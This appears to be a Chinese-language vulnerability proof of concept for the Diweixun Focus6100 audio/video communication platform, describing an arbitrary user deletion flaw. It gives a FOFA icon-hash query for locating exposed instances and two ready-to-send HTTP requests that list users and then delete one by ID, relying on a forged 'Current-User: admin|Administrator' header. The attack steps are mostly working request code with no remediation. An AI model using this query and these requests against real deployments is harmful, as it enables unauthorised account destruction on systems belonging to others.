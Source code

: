 # 迪威讯Focus6100音视频通讯平台存在任意用户删除

# 一、漏洞简介
迪威讯Focus6100音视频通讯平台存在任意用户删除

# 二、影响版本
+ 迪威讯Focus6100音视频通讯平台

# 三、资产测绘
+ fofa`web.icon=="bbc933535a6bfe478afb1fd0b3c470bf"`
+ 特征

![1727236496776-a86037c1-f827-4701-8df6-d3ff921c09b3.png](./img/iCp6n463PYDv5NDp/1727236496776-a86037c1-f827-4701-8df6-d3ff921c09b3-020946.png)

# 四 、漏洞复现
先获取ID

```java
GET /portal/rest/users HTTP/1.1
Host: 
Accept: application/json, text/plain, */*
Current-User: admin|Administrator
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Connection: close
```

![1727236976160-7d286d29-24f9-40e3-86d0-98105090b8a8.png](./img/iCp6n463PYDv5NDp/1727236976160-7d286d29-24f9-40e3-86d0-98105090b8a8-624829.png)

利用获取ID删除用户

```java
DELETE /portal/rest/users/ff8080819200f6750192274beccc0019 HTTP/1.1
Host: 
Accept: application/json, text/plain, */*
Current-User: admin|Administrator
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Connection: close
```

![1727237124222-466859ab-cbe1-4ef1-a344-0acb772d2535.png](./img/iCp6n463PYDv5NDp/1727237124222-466859ab-cbe1-4ef1-a344-0acb772d2535-711660.png)



> 更新: 2024-10-22 09:36:09  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xl9p6cln9rou66gy>
